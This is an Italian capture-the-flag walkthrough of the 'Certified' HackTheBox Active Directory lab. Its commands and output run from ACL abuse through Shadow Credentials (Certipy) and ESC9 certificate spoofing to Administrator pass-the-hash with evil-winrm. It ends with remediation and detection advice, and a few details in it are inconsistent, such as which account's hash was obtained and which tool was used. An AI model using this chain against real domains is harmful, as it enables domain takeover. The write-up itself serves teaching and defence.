

## 🎯 Executive Summary

**Certified** è una macchina Windows di difficoltà media progettata attorno a uno scenario di “assumed breach” (violazione presunta), dove vengono fornite le credenziali per un utente con privilegi limitati.  
( **judith.mader** : **judith09** )

| Attributo       | Valore                                                                                                                        |
|:----------------|:------------------------------------------------------------------------------------------------------------------------------|
| **OS:**         | Windows                                                                                                                       |
| **Difficulty:** | Medium                                                                                                                        |
| **MITRE TTPs:** |   |

> Obiettivo
>
> **Accesso Iniziale (Foothold):** L’obiettivo iniziale è ottenere l’accesso all’account *management_svc*. Questo avviene enumerando le ACL (Access Control Lists) sugli oggetti privilegiati. L’enumerazione rivela che l’utente fornito, *judith.mader* possiede il permesso `WriteOwner` sul gruppo management. A sua volta, il gruppo management possiede il permesso `GenericWrite` sull’account *management_svc*, permettendo infine l’autenticazione al target tramite WinRM.  
> **Escalation dei Privilegi:** Per ottenere l’accesso all’account Administrator è necessario sfruttare l’Active Directory Certificate Service (ADCS). La tecnica specifica prevede l’abuso delle “`Shadow Credentials`” e lo sfruttamento della vulnerabilità `ESC9`. L’attacco ESC9 permette di modificare l’UPN (User Principal Name) di un utente (in questo caso *ca_operator*) in “Administrator”, richiedere un certificato per quell’UPN e poi autenticarsi come Amministratore di Dominio.



------------------------------------------------------------------------

## Reconnaissance

### Enumerazione

Scansione di Rete

```
sudo nmap --open -v T4 -A -Pn 10.129.231.186
 
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-01-19 23:47:23Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: certified.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-01-19T23:48:50+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC01.certified.htb, DNS:certified.htb, DNS:CERTIFIED
| Issuer: commonName=certified-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-06-11T21:05:29
| Not valid after:  2105-05-23T21:05:29
| MD5:     ac8a 4187 4d19 237f 7cfa de61 b5b2 941f
| SHA-1:   85f1 ada4 c000 4cd3 13de d1c2 f3c6 58f7 7134 d397
|_SHA-256: efbd f880 f25e 9059 7d06 867b ba6c 7050 277e 6fa7 aa81 5bee 9b4c bf63 358d e0b8
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certified.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC01.certified.htb, DNS:certified.htb, DNS:CERTIFIED
| Issuer: commonName=certified-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-06-11T21:05:29
| Not valid after:  2105-05-23T21:05:29
| MD5:     ac8a 4187 4d19 237f 7cfa de61 b5b2 941f
| SHA-1:   85f1 ada4 c000 4cd3 13de d1c2 f3c6 58f7 7134 d397
|_SHA-256: efbd f880 f25e 9059 7d06 867b ba6c 7050 277e 6fa7 aa81 5bee 9b4c bf63 358d e0b8
|_ssl-date: 2026-01-19T23:48:49+00:00; +7h00m01s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: certified.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-01-19T23:48:51+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC01.certified.htb, DNS:certified.htb, DNS:CERTIFIED
| Issuer: commonName=certified-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-06-11T21:05:29
| Not valid after:  2105-05-23T21:05:29
| MD5:     ac8a 4187 4d19 237f 7cfa de61 b5b2 941f
| SHA-1:   85f1 ada4 c000 4cd3 13de d1c2 f3c6 58f7 7134 d397
|_SHA-256: efbd f880 f25e 9059 7d06 867b ba6c 7050 277e 6fa7 aa81 5bee 9b4c bf63 358d e0b8
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certified.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-01-19T23:48:49+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC01.certified.htb, DNS:certified.htb, DNS:CERTIFIED
| Issuer: commonName=certified-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-06-11T21:05:29
| Not valid after:  2105-05-23T21:05:29
| MD5:     ac8a 4187 4d19 237f 7cfa de61 b5b2 941f
| SHA-1:   85f1 ada4 c000 4cd3 13de d1c2 f3c6 58f7 7134 d397
|_SHA-256: efbd f880 f25e 9059 7d06 867b ba6c 7050 277e 6fa7 aa81 5bee 9b4c bf63 358d e0b8
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
 
Host script results:
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 7h00m00s
| smb2-time:
|   date: 2026-01-19T23:48:13
|_  start_date: N/A
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required
 
TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   63.72 ms 10.10.14.1
2   66.87 ms 10.129.231.186
```

L’analisi iniziale con `nmap` identifica l’host **10.129.231.186** come il Domain Controller **DC01** del dominio `certified.htb`.

- **Servizi AD:** Sono esposti i servizi standard di Active Directory: DNS (53), Kerberos (88), RPC (135), LDAP (389/3268) e LDAPS (636/3269).
- **ADCS:** L’output dello script LDAP rivela la presenza di una Certification Authority denominata `certified-DC01-CA`, indizio fondamentale per possibili vettori di attacco sui certificati.
- **Accesso Remoto:** Sono aperti SMB (445) e WinRM (5985).

------------------------------------------------------------------------

```
 nxc smb 10.129.231.186 -u 'judith.mader' -p 'judith09'
SMB         10.129.231.186  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.231.186  445    DC01             [+] certified.htb\judith.mader:judith09
 
❯ nxc smb 10.129.231.186 -u 'judith.mader' -p 'judith09' --shares
SMB         10.129.231.186  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.231.186  445    DC01             [+] certified.htb\judith.mader:judith09
SMB         10.129.231.186  445    DC01             [*] Enumerated shares
SMB         10.129.231.186  445    DC01             Share           Permissions     Remark
SMB         10.129.231.186  445    DC01             -----           -----------     ------
SMB         10.129.231.186  445    DC01             ADMIN$                          Remote Admin
SMB         10.129.231.186  445    DC01             C$                              Default share
SMB         10.129.231.186  445    DC01             IPC$            READ            Remote IPC
SMB         10.129.231.186  445    DC01             NETLOGON        READ            Logon server share
SMB         10.129.231.186  445    DC01             SYSVOL          READ            Logon server share
```

```
❯ nxc winrm 10.129.231.186 -u 'judith.mader' -p 'judith09'
WINRM       10.129.231.186  5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:certified.htb)
WINRM       10.129.231.186  5985   DC01             [-] certified.htb\judith.mader:judith09
```

**Verifica Credenziali e Accessi**

Disponendo delle credenziali per l’utente `judith.mader`, verifichiamo i permessi di accesso ai servizi esposti.

- **SMB:** L’autenticazione ha successo. `NetExec` conferma che le credenziali sono valide, ma l’utente ha accesso solo in lettura alle share predefinite (`IPC$`, `NETLOGON`, `SYSVOL`).
- **WinRM:** Il tentativo di connessione remota fallisce; l’utente non fa parte del gruppo *Remote Management Users*.

------------------------------------------------------------------------

**Analisi Active Directory** (BloodHound)

L’enumerazione delle ACL del dominio tramite BloodHound evidenzia un percorso di compromissione interessante che parte dall’utente controllato.


L’analisi mostra che `judith.mader` dispone di privilegi critici sul gruppo **Management** (o può acquisirli), permettendo la modifica dei membri o del proprietario del gruppo stesso. Questo controllo sarà il punto di partenza per l’escalation dei privilegi.

------------------------------------------------------------------------

## Foothold

### Exploitation & Lateral Movement

**Abuso dei Permessi AD** (ACL Abuse)

L’analisi BloodHound ha rivelato che `judith.mader` possiede i privilegi necessari per manipolare il gruppo **Management**. Procediamo modificando le ACL per aggiungerci al gruppo e ottenere ulteriori accessi.

1.  **Presa di possesso (Ownership):** Utilizziamo `impacket-owneredit` per assegnare la proprietà dell’oggetto gruppo **Management** all’utente `judith.mader`.

```
impacket-owneredit -action write -new-owner 'judith.mader' -target management 'certified/judith.mader':'judith09' -dc-ip 10.129.231.186
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
 
[*] Current owner information below
[*] - SID: S-1-5-21-729746778-2675978091-3820388244-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=certified,DC=htb
[*] OwnerSid modified successfully!
```

2.  **Modifica DACL:** Con `impacket-dacledit` ci garantiamo il permesso `WriteMembers` sull’oggetto.

```
impacket-dacledit -action 'write' -rights 'WriteMembers' -principal judith.mader -target Management 'certified'/'judith.mader':'judith09' -dc-ip 10.129.231.186
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
 
[*] DACL backed up to dacledit-20260119-182546.bak
[*] DACL modified successfully!
```

3.  **Aggiunta al gruppo:** Infine, tramite `bloodyAD`, aggiungiamo il nostro utente al gruppo **Management**. Una verifica con `net rpc` conferma che ora `judith.mader` è membro effettivo.

```
bloodyAD --host dc01.certified.htb -d certified.htb -u 'judith.mader' -p 'judith09' add groupMember 'Management' 'judith.mader'
[+] judith.mader added to Management
 
net rpc group members Management -U "certified.htb"/"judith.mader"%"judith09" -S 10.129.231.186
CERTIFIED\judith.mader
CERTIFIED\management_svc
```

------------------------------------------------------------------------

### Shadow Credentials Attack

L’appartenenza al gruppo **Management** ci fornisce il controllo sull’utente di servizio **management_svc**. Per compromettere questo account senza modificarne la password (operazione rumorosa e distruttiva), eseguiamo un attacco **Shadow Credentials**.

Questa tecnica abusa dell’attributo `msDS-KeyCredentialLink` per iniettare una chiave pubblica, permettendo l’autenticazione tramite certificato e l’ottenimento di un TGT Kerberos.

Eseguiamo l’attacco con **Certipy** (utilizzando `faketime` per correggere il disallineamento orario di +7h rilevato da nmap):

1.  Certipy inietta una *Key Credential* nell’account `management_svc`.
2.  Effettua l’autenticazione con il certificato generato.
3.  Recupera l’hash NT dell’account (`a091...`).
4.  Ripristina lo stato originale rimuovendo la chiave iniettata.

```
faketime -f +7h certipy shadow auto -username judith.mader@certified.htb -password judith09 -account management_svc -target certified.htb -dc-ip 10.129.231.186
Certipy v5.0.4 - by Oliver Lyak (ly4k)
 
[*] Targeting user 'management_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '0551d1008f2b4136a3b1cb276ebf30a1'
[*] Adding Key Credential with device ID '0551d1008f2b4136a3b1cb276ebf30a1' to the Key Credentials for 'management_svc'
[*] Successfully added Key Credential with device ID '0551d1008f2b4136a3b1cb276ebf30a1' to the Key Credentials for 'management_svc'
[*] Authenticating as 'management_svc' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'management_svc@certified.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'management_svc.ccache'
[*] Wrote credential cache to 'management_svc.ccache'
[*] Trying to retrieve NT hash for 'management_svc'
[*] Restoring the old Key Credentials for 'management_svc'
[*] Successfully restored the old Key Credentials for 'management_svc'
[*] NT hash for 'management_svc': a091c1832bcdd4677c28b5a6a1295584
```

**Shadow Credentials** è una tecnica di attacco ad Active Directory che consente di **impersonare un account senza conoscerne la password**, abusando dell’attributo `msDS-KeyCredentialLink`.

Se un attaccante dispone di permessi di scrittura su questo attributo (diretti o tramite ACL/gruppi), può **aggiungere una propria chiave pubblica** all’account target. Active Directory accetterà quindi tale chiave come **metodo di autenticazione valido**, permettendo l’ottenimento di un **TGT Kerberos** tramite certificato.

Questa tecnica:

- non modifica la password dell’account
- è poco visibile a livello di logging
- viene spesso usata come **pivot verso ADCS o Domain Admin**

> Nel nostro caso, l’abuso di Shadow Credentials ha permesso di ottenere l’ **NT hash** dell’account `ca_operator`, abilitando la successiva escalation tramite Active Directory Certificate Services.

------------------------------------------------------------------------

### Accesso come management_svc

Con l’hash NTLM recuperato, otteniamo una shell WinRM stabile sull’host target e recuperiamo il primo flag.

- **Utente:** `management_svc`
- **Flag:** `user.txt`

```
evil-winrm -i 10.129.231.186 -u 'management_svc' -H 'a091c1832bcdd4677c28b5a6a1295584'
 
Evil-WinRM shell v3.9
 
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\management_svc\Documents> cd "C:/Users/management_svc/Desktop/"
*Evil-WinRM* PS C:\Users\management_svc\Desktop> ls
 
 
    Directory: C:\Users\management_svc\Desktop
 
 
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        1/19/2026   3:19 PM             34 user.txt
```

------------------------------------------------------------------------

## Privilage Escalation (ADCS ESC9)

### Pivot verso ca_operator

L’enumerazione interna con BloodHound mostra che l’utente `management_svc` ha controllo sull’account `ca_operator`. Sfruttiamo nuovamente la tecnica **Shadow Credentials** per ottenere l’hash NTLM di questo utente necessario per interagire con la Certification Authority.


```
faketime -f +7h certipy shadow auto -username management_svc@certified.htb -hashes :a091c1832bcdd4677c28b5a6a1295584 -account ca_operator -target certified.htb -dc-ip 10.129.231.186
Certipy v5.0.4 - by Oliver Lyak (ly4k)
 
[*] Targeting user 'ca_operator'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '55c1275fc4664649ae673cd73c90dc17'
[*] Adding Key Credential with device ID '55c1275fc4664649ae673cd73c90dc17' to the Key Credentials for 'ca_operator'
[*] Successfully added Key Credential with device ID '55c1275fc4664649ae673cd73c90dc17' to the Key Credentials for 'ca_operator'
[*] Authenticating as 'ca_operator' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'ca_operator@certified.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ca_operator.ccache'
[*] Wrote credential cache to 'ca_operator.ccache'
[*] Trying to retrieve NT hash for 'ca_operator'
[*] Restoring the old Key Credentials for 'ca_operator'
[*] Successfully restored the old Key Credentials for 'ca_operator'
[*] NT hash for 'ca_operator': b4b86f45c6018f1b664f70805f45d8f2
```

------------------------------------------------------------------------

### Identificazione Vulnerabilità ESC9

L’analisi dei template di certificato con `certipy find` evidenzia il template `CertifiedAuthentication` vulnerabile a **ESC9**. Le condizioni critiche rilevate sono:

- **Permessi di Enrollment:** L’utente `operator ca` (ca_operator) ha diritti di enrollment.
- **Mancanza Security Extension:** Il template non ha l’estensione di sicurezza (`msPKI-Certificate-Security-Extension`), quindi il certificato non incorpora il SID del richiedente.
- **Identità basata su UPN:** Il flag `SubjectAltRequireUpn` impone che l’identità del certificato sia mappata sul `userPrincipalName` dell’account Active Directory.

Questa configurazione permette a chi può modificare il proprio UPN (o quello di un utente controllato) di impersonare chiunque, incluso l’Administrator.

```
certipy find -vulnerable -u ca_operator -hashes :b4b86f45c6018f1b664f70805f45d8f2 -dc-ip 10.129.231.186 -stdout
Certipy v5.0.4 - by Oliver Lyak (ly4k)
 
[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Finding issuance policies
[*] Found 15 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'certified-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'certified-DC01-CA'
[*] Checking web enrollment for CA 'certified-DC01-CA' @ 'DC01.certified.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : certified-DC01-CA
    DNS Name                            : DC01.certified.htb
    Certificate Subject                 : CN=certified-DC01-CA, DC=certified, DC=htb
    Certificate Serial Number           : 36472F2C180FBB9B4983AD4D60CD5A9D
    Certificate Validity Start          : 2024-05-13 15:33:41+00:00
    Certificate Validity End            : 2124-05-13 15:43:41+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : CERTIFIED.HTB\Administrators
      Access Rights
        ManageCa                        : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        ManageCertificates              : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Enroll                          : CERTIFIED.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : CertifiedAuthentication
    Display Name                        : Certified Authentication
    Certificate Authorities             : certified-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireUpn
                                          SubjectRequireDirectoryPath
    Enrollment Flag                     : PublishToDs
                                          AutoEnrollment
                                          NoSecurityExtension
    Extended Key Usage                  : Server Authentication
                                          Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 1000 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2024-05-13T15:48:52+00:00
    Template Last Modified              : 2024-05-13T15:55:20+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CERTIFIED.HTB\operator ca
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : CERTIFIED.HTB\Administrator
        Full Control Principals         : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Write Owner Principals          : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Write Dacl Principals           : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Write Property Enroll           : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
    [+] User Enrollable Principals      : CERTIFIED.HTB\operator ca
    [!] Vulnerabilities
      ESC9                              : Template has no security extension.
    [*] Remarks
      ESC9                              : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
```

**Esecuzione dell’Attacco**

Poiché `management_svc` ha permessi di scrittura sugli attributi di `ca_operator`, eseguiamo i seguenti passaggi:

1.  **Modifica UPN:** Cambiamo il `userPrincipalName` di `ca_operator` in `Administrator`.

```
certipy account update -u management_svc -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn Administrator -dc-ip 10.129.231.186
Certipy v5.0.4 - by Oliver Lyak (ly4k)
 
[*] Updating user 'ca_operator':
    userPrincipalName                   : Administrator
[*] Successfully updated 'ca_operator'
```

2.  **Richiesta Certificato:** Richiediamo un certificato usando il template `CertifiedAuthentication`. La CA, leggendo l’UPN modificato, emette un certificato valido per “Administrator”.

```
certipy req -u ca_operator -hashes :b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication -dc-ip 10.129.231.186
Certipy v5.0.4 - by Oliver Lyak (ly4k)
 
[*] Requesting certificate via RPC
[*] Request ID is 5
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

3.  **Ripristino:** Reimpostiamo l’UPN originale (`ca_operator@certified.htb`) per pulire le tracce e mantenere la coerenza dell’account.

```
certipy account update -u management_svc -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn ca_operator@certified.htb -dc-ip 10.129.231.186
Certipy v5.0.4 - by Oliver Lyak (ly4k)
 
[*] Updating user 'ca_operator':
    userPrincipalName                   : ca_operator@certified.htb
[*] Successfully updated 'ca_operator'
```

4.  **Autenticazione:** Utilizziamo il certificato `administrator.pfx` ottenuto per autenticarci via Kerberos (Unlocking) e recuperare l’hash NTLM dell’account **Administrator**.

```
faketime -f +7h certipy auth -pfx administrator.pfx -dc-ip 10.129.231.186 -domain certified.htb
Certipy v5.0.4 - by Oliver Lyak (ly4k)
 
[*] Certificate identities:
[*]     SAN UPN: 'Administrator'
[*] Using principal: 'administrator@certified.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34
```

**ESC9** è una vulnerabilità di Active Directory Certificate Services che si verifica quando un certificate template non include la **Security Extension**. In questa configurazione, i certificati emessi non sono legati al **SID dell’account**, ma si basano esclusivamente sul **UPN** per l’identità.

Se un attaccante dispone dei permessi di **Enroll** su un template vulnerabile e può modificare il **UPN** dell’account, è possibile richiedere un certificato impersonando un altro utente, incluso **Administrator**. Il certificato ottenuto può quindi essere utilizzato per autenticarsi via Kerberos e ottenere privilegi di **Domain Admin**.

Nel contesto di questa macchina, ESC9 ha permesso l’ottenimento di un certificato valido per l’account Administrator, completando l’escalation dei privilegi.

------------------------------------------------------------------------

### Accesso Root

Con l’hash dell’amministratore, accediamo via `evil-winrm` e conquistiamo il dominio.

- **Utente:** `Administrator`
- **Flag:** `root.txt`

```
evil-winrm -i 10.129.231.186 -u 'Administrator' -H '0d5b49608bbce1751f708748f67e2d34'
 
Evil-WinRM shell v3.9
 
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd "C:/Users/Administrator/Desktop/"
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls
 
 
    Directory: C:\Users\Administrator\Desktop
 
 
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        1/19/2026   3:19 PM             34 root.txt
```

------------------------------------------------------------------------

## 🛡️ Remediation & Defense

L’intera catena di attacco su **Certified** si basa su una scarsa igiene delle ACL di Active Directory e su configurazioni insicure dei servizi di certificato (ADCS). Ecco le azioni correttive prioritarie.

> Fix Critico: Mitigazione ADCS (ESC9/UPN Spoofing)
>
> L’attacco finale sfrutta la possibilità di modificare il proprio `userPrincipalName` (UPN) per ingannare la CA e ottenere un certificato come Administrator.
>
> **Azione Correttiva:**
>
> 1.  **Abilitare Strong Certificate Binding:** Implementare la patch Microsoft **KB5014754**. Questa impone un mapping forte (Strong Mapping) tra il certificato e l’utente basato sul SID, rendendo inutile il trucco del cambio UPN.
> 2.  **Revisione Template:** Se il template non richiede la compatibilità con client legacy, rimuovere il flag `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` se presente o restringere i permessi di enrollment solo agli amministratori.

> Hardening delle ACL & Monitoraggio
>
> Per prevenire il movimento laterale iniziale, è necessario intervenire a monte:
>
> 1.  **Principio del Privilegio Minimo (PoLP):** L’utente `judith.mader` non dovrebbe avere il permesso **WriteOwner** su un gruppo privilegiato come `Management`. Il gruppo `Management` non deve avere permessi **GenericWrite** o **GenericAll** sugli account di servizio (`management_svc`) o sugli operatori della CA (`ca_operator`).  
>     ***Soluzione:** Eseguire audit periodici con strumenti come **PingCastle** o **BloodHound** per identificare e rimuovere relazioni di trust pericolose.*  
> 2.  **Rilevamento Shadow Credentials:** L’attacco ha utilizzato `pywhisker` per iniettare Key Credentials. **Detection:** *Monitorare le modifiche all’attributo `msDS-KeyCredentialLink` sugli oggetti utente e computer.*  
>     **Event ID:** *Configurare alert per l’Evento Windows **4742** (Computer Account Changed) o **4738** (User Account Changed) quando viene popolato questo attributo specifico.*  
> 3.  **Protezione Account Critici:** Account come `ca_operator` dovrebbero essere protetti tramite il gruppo **Protected Users** o marcati come “Account is sensitive and cannot be delegated” per limitare le superfici di attacco Kerberos.
